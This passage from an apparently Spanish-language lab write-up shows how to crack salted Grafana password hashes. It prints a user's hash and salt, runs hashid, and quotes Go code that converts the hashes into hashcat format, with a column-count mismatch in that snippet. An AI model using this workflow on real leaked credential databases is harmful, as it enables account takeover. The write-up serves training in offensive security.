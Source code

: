 Vemos registros además de la estructura de la tabla, el registro contiene información del usuario, hash y `salt`.

> En criptografía, una "salt" (o sal) es una ==cadena de caracteres aleatorios que se añade a una contraseña antes de aplicar un algoritmo de hash==. Esto crea hashes únicos para contraseñas idénticas, aumentando la seguridad al dificultar los ataques que utilizan tablas de hashes pre-calculadas.
{: .notice--info}


## Cracking `grafana` Hashes

Si intentamos crackear directamente los hashes encontrados, las herramientas no lograrán identificar el tipo de hash, esto es porque el hash se construye con otros datos adicionales

~~~ bash
hashid 7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960                                
Analyzing '7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960'
[+] Unknown hash
~~~

### Converting Hashes

Si buscamos en Google, llegaremos al siguiente artículo donde se explica muy bien este concepto además de un CVE

- https://vulncheck.com/blog/grafana-cve-2021-43798

> Para convertir el hash en formato `hashcat`, necesitaremos lo siguiente de la base de datos que ya conocemos, usemos de ejemplo al usuario `developer`:
>
> `Password` -> `7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960`
> `Salt` -> `4umebBJucv`
{: .notice--danger}

Según el autor, el algoritmo utilizado para construir el hash final es `PBKDF2-HMAC-SHA256`. Además explica cómo podemos convertir el hash de modo que sea entendido por `hashcat`, ya que esta herramienta contempla este algoritmo, el siguiente código está en lenguaje `go`

~~~ go
// grab the usernames, passwords and salts from the downloaded db
rows, err := db.Query("select email,password,salt,is_admin from user")
if err != nil {
    return
}
defer rows.Close()

for rows.Next() {
    var email string
    var password string
    var salt string
    err = rows.Scan(&email, &password, &salt)
    if err != nil {
     return false
    }

    decoded_hash, _ := hex.DecodeString(password)
    hash64 := b64.StdEncoding.EncodeToString([]byte(decoded_hash))
    salt64 := b64.StdEncoding.EncodeToString([]byte(salt))
    _, _ = hash_file.WriteString("sha256:10000:" + salt64 + ":" + hash64 + "\n")
}
~~~
